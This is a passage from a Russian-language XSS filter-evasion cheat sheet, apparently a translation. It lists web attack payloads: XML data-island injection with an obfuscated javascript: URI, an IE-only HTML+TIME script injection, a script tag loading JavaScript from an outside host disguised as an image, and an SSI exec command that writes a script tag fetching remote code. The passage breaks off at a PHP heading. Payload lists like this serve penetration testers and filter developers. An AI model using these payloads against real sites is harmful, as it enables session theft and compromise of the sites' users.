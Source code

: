 ```html
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### Локально размещенный XML со встроенным JavaScript, который генерируется с использованием XML-базы данных

Эта атака почти такая же, как и описанная выше, но вместо этого она ссылается на локально размещенный (на том же сервере) XML-файл, который будет содержать ваш XSS-вектор. Результат вы можете увидеть здесь:

```html
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME в XML

Эта атака работает только в IE и помните, что для того, чтобы это сработало, вы должны находиться между тегами HTML и BODY:

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

(Вот как Grey Magic взломала Hotmail и Yahoo!)

### Предполагая, что вы можете поместить только несколько символов, и это отфильтровывает их по  `.js`

Эта атака позволяет вам переименовать ваш JavaScript-файл в изображение в виде XSS-вектора:

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI (Server Side Includes) включения на стороне сервера 

Для использования этого XSS-вектора на сервере должен быть установлен SSI. Возможно, мне не нужно упоминать об этом, но если вы можете запускать команды на сервере, то, несомненно, возникнут гораздо более серьезные проблемы:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

### PHP

Для этой атаки требуется, чтобы на сервере был установлен PHP. Опять же, если вы можете запускать какие-либо скрипты удаленно, как это, вероятно, возникают гораздо более серьезные проблемы:
